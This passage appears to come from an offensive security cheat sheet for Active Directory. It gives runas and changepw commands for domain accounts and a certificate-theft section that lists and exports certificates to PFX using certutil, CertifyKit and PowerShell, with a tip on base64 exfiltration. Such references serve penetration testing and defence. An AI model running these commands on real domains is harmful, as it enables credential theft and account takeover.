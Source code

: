 ### ChangePwd
- https://www.joeware.net/freetools/tools/changepw/index.htm

#### Runas as valid user
```
runas /netonly /user:<DOMAIN>\<USER> powershell.exe
```

#### ChangePwd
```
.\changepw.exe /d:<DOMAIN> /u:<USER> /o:<PASSWORD OLD> /p:<PASSWORD NEW>
```

### Active Directory Certificate Services
### THEFT1 Windows store
#### List certificates
```
# Current user store
certutil -user -store My

# Machine store
certutil -store My
```

- https://github.com/Hagrid29/CertifyKit
```
# Current user store
.\CertifyKit.exe list

# Machine store
.\CertifyKit.exe list /storename:my /storelocation:localmachine
```

```
# User store
Get-ChildItem Cert:\CurrentUser\My -Recurse
Get-ChildItem Cert:\CurrentUser\ -Recurse

# Machine store
Get-ChildItem Cert:\LocalMachine\My -Recurse
Get-ChildItem Cert:\LocalMachine\ -Recurse
```

#### Export certificates
```
certutil -p <PASSWORD> -exportpfx <SERIAL ID> cert.pfx
```

- Use `/base64` to exfil in base64 encoded file
```
.\CertifyKit.exe list /certificate:<SERIAL ID> /outfile:cert.pfx
.\CertifyKit.exe list /storename:my /storelocation:localmachine /certificate:<SERIAL ID> /outfile:cert.pfx
```
